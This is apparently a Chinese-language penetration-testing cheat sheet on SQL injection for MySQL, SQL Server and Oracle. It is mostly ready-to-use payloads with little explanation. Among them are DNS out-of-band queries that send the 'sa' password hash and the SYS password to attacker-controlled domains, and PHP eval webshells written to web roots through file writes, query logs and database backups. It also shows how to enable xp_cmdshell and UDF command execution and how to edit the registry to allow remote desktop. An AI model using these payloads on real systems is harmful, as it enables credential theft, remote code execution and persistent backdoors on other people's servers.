









## SQL注入漏洞

### 布尔注入

主要思想为通过页面有无回显和判定执行的sql语句是否正确的关系来收缩注入结果，思想和延时注入类似，只不过判定依据不同，一个主要根据页面是否一直判断、一个主要根据是否超出延时判断。

### 有回显注入

首先使用order by确定当前表的列数，然后看是否所有列中是否有能够回显的字段，若有则在该字段执行sql语句，若无则当其他注入情况处理。

### 宽字节注入

宽字节注入发生在连接数据库时使用gbk编码的时候。通过下图可以看到，我们在正常使用单引号的时候被后端转义，而使用%df%27的时候由于gbk编码会将%df和\符号结合在一起，从而使单引号逃逸，产生sql语句报错。




### 时间延时注入

**Mysql:**

```
sleep(5)      #大约运算5秒多
select benchmark(50000000,md5(1));     #大约运算10秒
SELECT count(*) FROM information_schema.columns A, information_schema.columns B, information_schema.tables C ,information_schema.columns D;    #这个的延时需要看数据库中表的个数，我的测试数据库没有什么表所有四个，正常用两个或者三个就可以
使用语句:if((1>2),1,sleep(5))
```

**SQLServer:**

```
select * from mytest where ID=1 waitfor delay '0:0:10';     #产生10秒延时
使用语句:if ( select IS_SRVROLEMEMBER('sysadmin'))=1 WAITFOR DELAY '0:0:5'--
```

[示例]( http://www.tiejiang.org/22272.html )

**Oracle:**

```
DBMS_PIPE.RECEIVE_MESSAGE('a',5)
使用语句：select decode(substr(user,1,1),'A',DBMS_PIPE.RECEIVE_MESSAGE('a',5) ,0) from dual
```

[示例]( https://www.cnblogs.com/Rakjong/p/10814727.html )

### 报错注入:

**Mysql**:

1、使用 floor() 

```
select * from users where id=1 and (select 1 from (select count(*),concat(user(),floor(rand(0)*2))x from information_schema.tables group by x)a);
```



2、使用 extractvalue() 

```
select * from users where id=1 and (extractvalue(1,concat(0x7e,(select user()),0x7e)));
```


3、使用updatexml()

```
select * from users where id=1 and (updatexml(1,concat(0x7e,(select user()),0x7e),1));
```



**SQLServer:**

在@@version字符串和1比较时会将字符型转换为int型从而产生报错

或者使用convert(int,@@version)函数也有同样的效果



**oracle数据库：**

```
oracle 报错注入

select dbms_xmltranslations.extractxliff((select banner from sys.v_$version where rownum=1)) from dual  --爆数据库版本号

select dbms_xdb_version.checkin((select banner from sys.v_$version where rownum=1)) from dual

select dbms_xdb_version.makeversioned((select banner from sys.v_$version where rownum=1)) from dual

select dbms_xdb_version.uncheckout((select banner from sys.v_$version where rownum=1)) from dual 

select dbms_utility.sqlid_to_sqlhash((select banner from sys.v_$version where rownum=1)) from dual

select dbms_streams.get_information((select banner from sys.v_$version where rownum=1)) from dual

select dbms_xmlschema.generateschema((select banner from sys.v_$version where rownum=1)) from dual
```

 ### DNS回显注入

**Mysql：**

```
select load_file(concat('\\\\','select database()','.mjhang.ceye.io');
```

**SQL Server:**

```
DECLARE @host varchar(1024);
select @host=(SELECT TOP 1 master.dbo.fn_varbintohexstr(password_hash) FROM sys.sql_logins WHERE name='sa')+'sqlserver.mjchag.ceye.io';
EXEC('master..xp_dirtree "\\'+@host+'\foobar$"');    
#将master..xp_dirtree替换成master..xp_subdirs、master..xp_fileexist
```

**Oracle:**

```
SELECT UTL_INADDR.GET_HOST_ADDRESS('test.example.com');
或
SELECT DBMS_LDAP.INIT((SELECT password FROM SYS.USER$ WHERE name='SYS')||'.attacker.com',80) FROM DUAL;
```

参考地址：https://bbs.pediy.com/thread-198931.htm 

### 数据库getshell

**mysql:**

1、当secure_file_priv为空时mysql可以任意写文件，进而getshell。



```
select '<?php eval($_POST['huahua'])?>' out_file 'C:\\phpstudy\\WWW\\evil.php'
```



说到了mysql写文件顺便说一个另类的读文件的方法，并且在secure_file_priv=NULL时也可以使用

```
create table mytable(a varchar(100));
LOAD DATA LOCAL INFILE "C:\\phpstudy\\WWW\\evil.php" INTO TABLE mytable;
```



2、日志查询getshell

```
show variables like '%general%';  #查看配置
set global general_log = on;  #开启general log模式
set global general_log_file = 'C:\\phpstudy\\WWW\\ma.php';   #设置日志目录为shell地址
select '<?php eval($_POST[huahua]);?>'  #写入shell
```




3、UDF命令执行

特别要提的点，1、将UDF.dll写入到plugin文件夹中需要有mysql任意写权限，也就是secure_file_priv要为空    2、UDF.dll必须要在plugin目录下。

```
select 'It is dll' into dumpfile 'C:\\Program Files\\MySQL\\MySQL Server 5.1\\lib::$INDEX_ALLOCATION'; //利用NTFS ADS创建lib目录
select 'It is dll' into dumpfile 'C:\\Program Files\\MySQL\\MySQL Server 5.1\\lib\\plugin::$INDEX_ALLOCATION';//利用NTFS ADS创建plugin目录 
```

另外msf中也有udf的模块，大家可以自行摸索。

```
multi/mysql/mysql_udf_payload
```

 https://www.freebuf.com/articles/system/163144.html 

**SQL_SERVER:**

1、使用master..xp_cmdshell

```
exec master..xp_cmdshell 'whoami';
```

一般在安全策略影响下会默认关闭，执行以下命令打开cmdshell

```
exec sp_configure 'show advanced options', 1; //开启高级选项
RECONFIGURE; //配置生效
exec sp_configure'xp_cmdshell', 1; //开启xp_cmdshell
RECONFIGURE; //配置生效
```

关于sqlserver开启master..xp_cmdshell失败的几种处理方法

 https://www.cnblogs.com/merlun/p/7427182.html 

2、差异备份getshell

```
create database test2;
use test2;
create table test(cmd varchar(300));
insert into test(cmd) values(0x3c3f70687020706870696e666f28293b3f3e);
backup database test2 to disk='C:\\phpstudy\\WWW\\test.php' WITH DIFFERENTIAL,FORMAT;
```



3、sp_makewebtask(2000版本)

2008版本不可用

```
exec sp_makewebtask 'C:\test1.php',' select ''<?php phpinfo();?>'' ';;--
```

还有一些2008不可用2000可用的，都在这个链接里: https://blog.csdn.net/qq_36374896/article/details/84112242 

4、补充

sqlserver操作注册表

```
exec xp_regwrite
'HKEY_LOCAL_MACHINE','SYSTEM\CurrentControlSet\Control\TerminalServer',
'fDenyTSConnections',
'REG_DWord',0
```

5、利用xp_cmdshell写webshell

```
for /r c:\ %i in (xxx*.aspx) do @echo %i     //找到网站中可以找到得文件，在磁盘中查找到其位置
使用echo在网站绝对路径写入webshell               //注意遇到<>需要使用^<和^>转义
```

 https://www.cnblogs.com/backlion/p/6869595.html 

**附SQLServer部分基础操作知识：**

获取所有数据库名

```
SELECT Name FROM Master..SysDatabases ORDER BY Name
```

获取所有表名

```
select name from sysobjects where xtype='u'       #u表示用户表、s表示系统表
```

获取所有列名

```
select name from syscolumns where id=Object_Id('TableName')
或
SELECT * FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME='subject'
```

[SQLServer注入小结](https://www.freebuf.com/column/182933.html)

**Oracle数据库：**

这方面遇到得不太多，先贴个链接，后面学习一下。

 https://blog.csdn.net/qq_33020901/article/details/80221393 